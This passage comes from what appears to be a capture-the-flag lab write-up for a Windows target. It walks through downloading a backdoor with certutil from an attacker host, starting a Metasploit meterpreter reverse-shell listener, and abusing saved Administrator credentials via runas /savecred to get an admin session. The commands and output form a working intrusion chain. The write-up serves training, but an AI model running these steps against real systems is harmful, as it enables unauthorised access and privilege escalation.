 2. upload the exec file on the machine

C:\Users\security>certutil -urlcache -split -f "http://10.10.14.14/door.exe" "C:\Users\security\backdoor.exe"
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
C:\Users\security>dir
 Volume in drive C has no label.
 Volume Serial Number is 8164-DB5F

 Directory of C:\Users\security

02/02/2023  09:53 AM    <DIR>          .
02/02/2023  09:53 AM    <DIR>          ..
08/24/2018  07:37 PM    <DIR>          .yawcam
02/02/2023  09:53 AM             7,168 backdoor.exe
08/21/2018  10:35 PM    <DIR>          Contacts
08/28/2018  06:51 AM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
02/02/2023  09:51 AM               469 door.exe
08/21/2018  10:35 PM    <DIR>          Downloads
08/21/2018  10:35 PM    <DIR>          Favorites
08/21/2018  10:35 PM    <DIR>          Links
08/21/2018  10:35 PM    <DIR>          Music
08/21/2018  10:35 PM    <DIR>          Pictures
08/21/2018  10:35 PM    <DIR>          Saved Games
08/21/2018  10:35 PM    <DIR>          Searches
08/24/2018  07:39 PM    <DIR>          Videos
               2 File(s)          7,637 bytes
              14 Dir(s)   3,327,643,648 bytes free


3. start a listener

msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001 



  4. execute the payload as administrator:
  runas /savecred /noprofile /user:ACCESS\Administrator backdoor.exe

  5.receive a connection as administrator user:
  [*] Sending stage (200774 bytes) to 10.10.10.98
[*] Meterpreter session 1 opened (10.10.14.14:9001 -> 10.10.10.98:49161) at 2023-02-02 04:57:22 -0500
